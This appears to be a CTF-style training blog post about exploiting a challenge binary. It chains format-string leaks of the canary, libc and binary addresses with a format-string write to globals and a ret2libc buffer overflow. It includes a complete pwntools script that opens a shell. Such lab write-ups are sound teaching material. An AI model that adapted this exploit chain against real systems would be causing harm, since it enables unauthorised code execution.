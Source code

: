 ```yaml
---
layout: post
author: tourpran
title: Checkpoint
categories: pwn-training
tags: ["pwn", "format string"]
---
```


![](/images/checkpointaresx/ss1.png)

### Introduction:
Hey everyone, congrats on reaching this level. This level acts as a checkpoint (name suggests). You will be combining the idea of format strings, buffer overflows, canaries from previous blogposts. Try this level on your own and check for hints when stuck.

### Challenge:
Download below challenge file.

[FILES](/images/checkpointaresx/checkpoint_1.zip)

### Solution:

#### Mitigations:
![](/images/checkpointaresx/ss2.png)
No need to explain mitigations right ?

#### Code Walkthrough:

We are given the c code. Here in the main program, there is a while loop to run the format string vulnerability and finally a compare statement leading to a fgets call.

![](/images/checkpointaresx/ss3.png)

#### Sample run:
Runing the file tells us there is a format string exploit.
![](/images/checkpointaresx/ss4.png)


#### Exploit idea:
Here the challenge is direct and was made to recap what we learnt in the previous blogs. The attack plan is
* leaking a binary address, libc address, canary.
* make the strength variable = "STRENGTH"
* increase the size variable to a much larger value for a buffer overflow. (tricky part)

#### Format string exploit:

We already know what format strings are... now leak the stack little by little and see what useful values you get. I got the following values:

```leak
16: my input
49: canary
51: a libc address
56: a binary address
```

Now you got the values so calculate the address relatively with the binary/libc or initialise the binary and libc as elf with the help of pwntools ELF() function.

```py
#Need to know the libc. (used by default libc for local purpose)
elf.address = int((str(leak[2])[4:-3]), 16) - elf.sym.__libc_csu_init
libc.address = int((str(leak[1])[4:-1]), 16) - 159923
canary = int((str(leak[0])[4:-1]), 16)
#My weird way of receiving and splitin.
```
#### Formats again:
The second task was to change the value of the global variables and make it favourable for us.

```py
fmt = fmtstr_payload(16, {
    elf.sym.size: 500,
    elf.sym.strength: u64(b"STRENGTH"),
})
```
Here I am making the size variable much larger than buffer size, making strength variable equal to "STRENGTH" to pass the check.

#### Buffer Overflow:

Finally you do a bit of fiddling to get the correct offset of the stack canary and overwrite with the leaked canary, then simply do a ret2libc.

#### Exploit:

```py

from pwn import *

exe = './checkpoint'
context.binary = elf = ELF(exe)

libc = "/usr/lib/x86_64-linux-gnu/libc.so.6"
if(libc != ""):
	libc = ELF(libc)

def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

gdbscript = '''
b* main
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

'''
NOTES:
16: my input
49: canary
51: a libc address
56: a binary address
'''

p = start()

p.recv()
p.sendline(b"%49$p-%51$p-%56$p")
leak = p.recvline().split(b"-")

elf.address = int((str(leak[2])[4:-3]), 16) - elf.sym.__libc_csu_init
libc.address = int((str(leak[1])[4:-1]), 16) - 159923
canary = int((str(leak[0])[4:-1]), 16)

log.info(f"elf base: {hex(elf.address)}")
log.info(f"libc base: {hex(libc.address)}")

fmt = fmtstr_payload(16, {
    elf.sym.size: 500,
    elf.sym.strength: u64(b"STRENGTH"),
})

p.recv()
p.sendline(b"y")
p.send(fmt)

p.recv()
p.sendline(b"$p")
p.sendline(b"n")
p.sendline(b"A"*0x158 + p64(canary) + p64(0) + p64(elf.address + 0x1016) + p64(elf.address+0x151b)+ p64(next(libc.search(b'/bin/sh'))) + p64(libc.sym.system))

p.interactive()

```

This was short and crisp since all these topics are already covered in the rest of the blogs. Happy Hacking.